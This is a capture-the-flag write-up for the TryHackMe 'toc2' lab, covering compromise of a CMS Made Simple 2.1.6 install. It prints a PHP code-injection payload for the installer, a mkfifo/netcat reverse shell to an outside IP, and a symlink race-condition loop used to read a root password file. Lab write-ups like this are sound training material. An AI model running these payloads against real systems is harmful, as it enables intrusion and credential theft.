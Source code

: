 ```yaml
---
title: "toc2 - TryHackMe"
date: 2022-03-15T10:45:50-03:00
---
```


https://tryhackme.com/room/toc2

## **User Flag**

First, we use nmap to see what ports are open.

![nmap-toc2](/toc2/nmap-toc2.png)

We notice that ports 22 and 80 are open. Since we hardly have something to explore on SSH, we start by accessing the website.

![site-toc2](/toc2/site-toc2.png)

Here we collect a username and password (*cmsmuser:devpass*) and maybe another possible username (*Hunter*).

One of the nmap scripts brought us an existing *robots.txt* entry, so let's check it out.

![robots-toc2](/toc2/robots-toc2.png)

Here we find the installation path for cmsms, which is the manager that should be installed in this application, and we also collect the name of the db to be used: *cmsmsdb*.

![cmsms-toc2](/toc2/cmsms-toc2.png)

By accessing the indicated directory, we can proceed with the installation of the system.
First of all, since we can check the version used, let's look for any known vulnerabilities in cmsms 2.1.6.

As soon as we search, we already get a Remote Code Execution exploit. Perfect!  
https://www.exploit-db.com/exploits/44192

![exploit-toc2](/toc2/exploit-toc2.png)

Following the exploit, we notice that it already starts to be exploited when installing the manager itself.

To perform the installation, we enter the data collected earlier. Before proceeding to the next step, we intercept this request and enter the payload *junk';echo%20system($_GET['cmd']);$junk='junk* in the UTC field.

![database-toc2](/toc2/database-toc2.png)

![burpsuite-toc2](/toc2/cmsms2-toc2.png)

Now we access the address *http://10.10.169.35/cmsms/config.php?cmd=id;uname* and notice that the command entered in the cmd parameter is executed on the victim host and returned to us.

![cmd-execution-toc2](/toc2/cmsms2-cmd-toc2.png)

Since we can run remote commands, we can try a reverse shell.

I used the payload *rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.2.117.185 3333 >/tmp/f* encoded to URL.

![first-access-toc2](/toc2/initial-access-toc2.png)

When I first got access to the machine I used python to get a stable shell, but this is not necessary since we got frank's password from the file *new_machine.txt* located in his home folder to make a ssh connection.

There we also get the user flag!

![user-txt-toc2](/toc2/user-txt-toc2.png)

## Root Flag

On frank's home we notice an interesting directory called *root_access*. Inside it we have a c file, an executable and a text file that only the root user is allowed to read.

When reading the c file to understand what the executable does, we realize that it is used to read files, but only files that the user running it has permission to read.

Probably our mission is to use *readcreads* to read the file *root_password_backup* and get root's password.

![readcreds-toc2](/toc2/readcreds-toc2.png)

I spent some time trying to figure out how to exploit this program until I took a look at the hint offered by the CTF. In the github located in the hint, we noticed that it is a *race condition vulnerability*.

Researching a bit, I came across [this link](https://samsclass.info/127/proj/E10.htm) that talks about exploiting programs that use the *access()* function and also have some *time interval* before the time of usage.

The article shows exactly how to exploit this vulnerability. We create a file to which we have read access. Then we create a symbolic link called flip pointing to this file. When trying to read the symbolic link we are able to use readcreds correctly.

I then point the flip to root_password_backup just for a test case. Trying to read "flip" with readcreds logically returns an error.

![root-flag1-toc2](/toc2/root-flag-toc2.png)

Now we will actually explore this race condition. First, we create a loop with this command:
*while true; do ln -sf root_password_backup flip; ln -sf public flip; done &*

This command will constantly change the symbolic link between the file we have access to and the file with the root password.

Then we run a loop to execute the program multiple times by reading the symbolic link with this command: *for i in {1...30}; do ./readcreds flip; done*

The trick here is that at some point the program will do a condition check with the permissions on the public file, and when it reads the "flip" file, the symbolic link will have already been changed and will be pointing to root_password_backup.

![root-flag2-toc2](/toc2/root2-flag-toc2.png)

If you want to understand more about this race condition vulnerability, you can watch [this video](https://www.youtube.com/watch?v=5g137gsB9Wk). 

See ya =).


